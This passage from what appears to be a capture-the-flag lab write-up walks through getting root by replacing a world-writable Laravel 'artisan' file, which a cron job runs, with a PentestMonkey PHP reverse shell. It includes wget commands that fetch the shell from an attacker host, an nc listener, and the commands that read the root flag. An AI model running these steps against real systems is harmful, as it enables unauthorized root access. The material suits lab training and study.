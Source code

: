 **Result:** The file is world-writable, allowing us to modify it for privilege escalation.

### Privilege Escalation Execution

1. **Download the PentestMonkey PHP reverse shell:**

    First, download the [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to your attacking machine:

    ```bash
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
    ```

2. **Configure the reverse shell:**

    Edit the downloaded file to set your attacking machine's IP and desired port:

    ```bash
    # Edit the following lines in php-reverse-shell.php
    $ip = '10.10.14.10';  // CHANGE THIS
    $port = 5555;         // CHANGE THIS
    ```

3. **Set up HTTP server to serve the reverse shell:**

    ```bash
    python3 -m http.server 1337
    ```

4. **Download the reverse shell on the target machine:**

    Using the command `wget` to download the reverse shell to the target machine:

    ```bash
    cd /tmp
    wget http://10.10.14.10:1337/php-reverse-shell.php
    ```

5. **Replace the `/var/www/laravel/artisan` file with the reverse shell:**

    ```bash
    mv /tmp/php-reverse-shell.php /var/www/laravel/artisan
    ```

6. **Set up reverse shell listener:**

    ```bash
    nc -lvp 5555
    ```

7. **Wait for the cron job to execute (up to 60 seconds)**

    **Result:** Successfully obtained root shell

    ```bash
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    ```

### Root Flag Acquisition

The root flag is located in the root directory:

```bash
cat /root/root.txt
```
